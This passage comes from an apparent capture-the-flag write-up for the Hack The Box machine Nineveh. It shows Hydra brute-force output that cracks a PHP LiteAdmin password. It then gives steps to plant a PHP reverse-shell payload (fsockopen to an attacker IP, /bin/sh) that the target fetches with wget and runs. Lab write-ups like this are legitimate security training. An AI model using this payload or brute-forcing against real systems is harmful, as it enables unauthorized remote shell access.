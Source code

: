 ```console
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "princess" - 6 of 14344399 [child 5] (0/0)
... [Many attempts later] ...
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "esteban" - 1399 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "mookie" - 1400 of 14344399 [child 13] (0/0)
[443][http-post-form] host: 10.10.10.43   login: whatever   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-12-16 07:46:08


```
> Note: login name (-l) doesn't matter as we do not need it in our http request. Hydra just requires it in it's syntax and therefore now it's irrelevant! 

Use **password123** and we are inside the `PHP LiteAdmin` dashboard: 

<a href="/img/blog/htb-nineveh/htb-nineveh-08.png" target="_blank"><img class="centerImgHuge" src="/img/blog/htb-nineveh/htb-nineveh-08.png"></a>

Time to do some damage!

***

# Exploitation

There are many methods one can choose in order to compromise the application, but I went with the following:

* Make our own **.txt** backdoor file inside */var/www/html* with `<?php $sock=fsockopen("YOUR IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>` as the content 
* Start apache2 - `/etc/init.d/apache2 start`
* Make the target download (wget) our **.txt** file, save it as **.php** and run it

> Note: If you save the file as **.php** it would get activated on your own server when you wget it later on - **be careful about it**. That's why we save it as **.txt** and output it to **.php**.

To proceed with the exploitation do as the exploitdb file says. Create a database with *.php* extension (I named it shell.php, name doesn't matter!):
